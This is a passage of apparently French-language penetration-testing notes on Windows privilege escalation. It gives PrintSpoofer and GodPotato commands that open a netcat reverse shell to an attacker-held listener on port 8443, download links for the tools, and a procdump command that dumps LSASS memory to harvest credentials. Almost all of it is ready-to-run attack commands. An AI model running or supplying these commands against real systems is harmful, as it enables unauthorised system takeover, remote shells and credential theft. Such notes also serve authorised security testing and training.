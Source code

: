 
Sur attacker

```shell
nc -lnvp 8443
```

Sur target

```shell
C:\Users\Public\PrintSpoofer.exe -c "C:\Users\Public\nc.exe <ip_attacker> 8443 -e cmd"
```


# GodPotato (2012 à 2022)

https://github.com/BeichenDream/GodPotato/releases/tag/V1.20
https://github.com/int0x33/nc.exe/

Passer NC.exe et GodPotato sur la cible


Sur attacker

```shell
nc -lnvp 8443
```

Sur target

```shell
C:\Users\Public\GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe <ip_attacker> 8443"
```





---
# SeDebugPrivilege


## 1. Dump LSASS

### Procdump (Sysinternals)

https://learn.microsoft.com/en-us/sysinternals/downloads/procdump

Dump LSASS avec procdump

```cmd-session
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

### comsvcs.dll

Alternative avec comsvcs.dll

```powershell
Get-Process lsass
```
